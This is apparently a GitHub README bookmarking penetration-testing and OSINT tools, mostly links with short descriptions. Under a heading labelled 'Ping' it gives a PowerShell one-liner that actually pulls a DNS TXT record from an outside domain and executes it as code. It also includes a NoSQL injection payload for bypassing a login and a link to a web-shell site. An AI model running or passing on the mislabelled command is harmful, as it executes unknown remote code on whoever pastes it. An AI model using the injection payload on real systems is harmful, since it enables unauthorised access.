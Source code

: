 # ac-bookmark
Free Tools and Source For Security Pentest .. 😎

```sh
https://github.com/jpillora/chisel
https://github.com/samratashok/nishang
https://github.com/411Hall/JAWS
https://github.com/unicorn-engine/unicorn
https://github.com/ropnop/kerbrute
https://github.com/swisskyrepo/PayloadsAllTheThings
https://github.com/cyberheartmi9/Frida-Guide/blob/main/Frida%20Guide/Frida%20Guide.md
https://www.r57shell.net
https://wiki.96.mk/
https://ninite.com/
https://vulners.com
https://crt.sh
https://grep.app
https://github.com/Live-Hack-CVE
https://search.censys.io/
https://crt.sh/json?q=domainname
https://vulmon.com/
```

### Command FUZZIng Check extension in request
```sh
ffuf -request 'file.req' -request-proto hhtp or https -w 'List extensions fuzzing' -ms 'size header+body'
```

### Ping 

```sh
powershell . (nslookup -q=txt mrmtwoj.ir)[-1]
```

### BYPass Sql inkect and json 
```sh
{"username":"admin","password":{"$ne":""}}
```

```python
Scaling Network Scanning
https://github.com/natlas/natlas
https://alternativeto.net/software/natlas/about/
```
### RED TEAM IK

theHarvester is a simple to use, yet powerful tool designed to be used during the reconnaissance stage of a red
team assessment or penetration test. It performs open source intelligence (OSINT) gathering to help determine
a domain's external threat landscape. The tool gathers names, emails, IPs, subdomains, and URLs by using
multiple public resources that include:

```sh
https://github.com/laramies/theHarvester
```

Sublist3r is a python tool designed to enumerate subdomains of websites using OSINT. It helps penetration testers and bug hunters collect and gather subdomains for the domain they are targeting. Sublist3r enumerates subdomains using many search engines such as Google, Yahoo, Bing, Baidu and Ask. Sublist3r also enumerates subdomains using Netcraft, Virustotal, ThreatCrowd, DNSdumpster and ReverseDNS.

```sh
https://github.com/aboul3la/Sublist3r
```


Recon-ng is a full-featured reconnaissance framework designed with the goal of providing a powerful environment to conduct open source web-based reconnaissance quickly and thoroughly.

```sh
https://github.com/lanmaster53/recon-ng
```

SpiderFoot is an open source intelligence (OSINT) automation tool. It integrates with just about every data source available and utilises a range of methods for data analysis, making that data easy to navigate.

```sh
https://github.com/smicallef/spiderfoot
```

The OWASP Amass Project performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
```sh
https://github.com/owasp-amass/amass
```


